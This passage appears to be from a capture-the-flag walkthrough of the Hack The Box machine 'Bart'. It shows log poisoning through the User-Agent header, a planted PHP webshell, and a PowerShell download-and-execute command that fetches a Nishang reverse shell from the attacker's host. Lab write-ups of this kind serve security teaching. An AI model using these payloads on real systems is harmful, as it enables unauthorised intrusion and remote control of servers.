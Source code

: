 ```

root@kali# python3
Python 3.6.5rc1 (default, Mar 14 2018, 06:54:23)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> proxies={'http':'http://127.0.0.1:8080'}
>>> headers={'User-Agent':'0xdf: <?php phpinfo(); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', proxies=proxies, headers=headers)

```

Then visit `http://internal-01.bart.htb/log/phpinfo.php`:
![phpinfo](https://0xdfimages.gitlab.io/img/phpinfo-internal-01.bart.htb.png)

#### PHP Webshell

So a webshell is possible:

```

>>> headers={'User-Agent':"0xdf: <?php system($_REQUEST['cmd']); ?>"}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=0xdf.php&username=harvey', proxies=proxies, headers=headers)

```

```

root@kali# curl http://internal-01.bart.htb/log/0xdf.php?cmd=whoami
[2018-04-28 22:55:12] - harvey - 0xdf: nt authority\iusr

```

#### Nishang Invoke-PowerShellTcp Shell

Time for a real shell. Grab `Invoke-PowerShellTcp.ps1` from [Nishang](https://github.com/samratashok/nishang), and add a line to the end:

```

root@kali# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
root@kali# tail -1 Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 4444

```

Give webshell powershell to get interactive shell and run it, and get shell:

```

>>> cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')"
>>> r = requests.get('http://internal-01.bart.htb/log/0xdf.php?cmd={}'.format(cmd), proxies=proxies)

```
